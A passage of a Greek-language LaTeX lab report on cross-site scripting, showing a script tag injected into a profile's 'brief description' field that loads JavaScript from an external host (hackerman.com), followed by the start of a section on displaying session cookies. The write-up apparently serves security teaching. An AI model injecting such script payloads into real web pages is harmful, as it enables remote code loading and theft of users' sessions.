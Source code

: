 \noindent
Τέλος στο πεδίο brief description αντικαθιστούμε τον κώδικα με των
παρακάτω 
\begin{center}
	\begin{lstlisting}	
<script type="text/javascript"
src="http://www.hackerman.com/alerthack.js">
</script>
	\end{lstlisting}	
\end{center}
\begin{center}
			\includegraphics[width=1\textwidth]{image/1.5.0.PNG}		
\end{center}

\newpage
\section{Εμφάνιση μηνύματος με τα Session Cookies}
\subsection*{Απάντηση:}

\noindent
Για το δεύτερο πείραμα ακολουθούμε την ίδια διαδικασία με το προηγούμενο.
δημιουργούμε ένα αρχείο .js.
\begin{center}
			\includegraphics[width=1\textwidth]{image/2.1.PNG}		
\end{center}


